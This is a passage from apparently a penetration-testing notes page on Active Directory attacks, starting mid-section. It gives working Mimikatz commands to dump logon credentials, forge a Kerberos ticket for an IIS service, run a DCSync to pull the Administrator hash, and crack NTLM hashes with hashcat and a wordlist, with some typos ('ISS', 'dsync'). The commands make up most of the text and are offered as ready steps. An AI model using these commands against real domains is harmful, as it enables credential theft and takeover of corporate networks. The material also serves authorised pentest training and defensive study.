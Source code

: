 ```adblock
corp\user **S-1-5-21-xxxxxxxx-xxxxxxx-xxxxxxxx**-xxxx
```

Then with Mimikatz we dump service hashes

```powershell
privilege::debug
sekurlsa::logonpasswords
```

Here we take the NTLM HASH of the service, for example the `iss_service`. Next we can run the attack inside Mimikatz. In the following case we will target the ISS Microsoft service.

```powershell
kerberos::golden /sid:<SID> /domain:<DOMAIN> /ptt /target:<TARGET> /service:http /rc4:<HASH> /user:<USER>
```

Now we can dump our tickets with

```powershell
klist
```

The ticket will be crated for the admin user and for the local user. We can craft authenticated request to the ISS server.

```powershell
iwr -UseDefaultCredentials <URL>
```

# DCSync Attack

When the AD has to synchronize the domains, it runs the Directory Replication Service (DRS) Remote Protocol. Because the domain does not verify the origin of the request, we can perform a **dcsync** attack that could dump any user credential in the domain.

To launch such a replication, a user needs to have the _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights. By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these rights assigned.

We can use the `impacket-secretsdump` utility. First we run Mimikatz with the dsync attack.

```powershell
lsadump::dcsync /domain:<DOMAIN> /user:Administrator
```

We crack the NTLM HASH with hashcat

```powershell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt --force
```
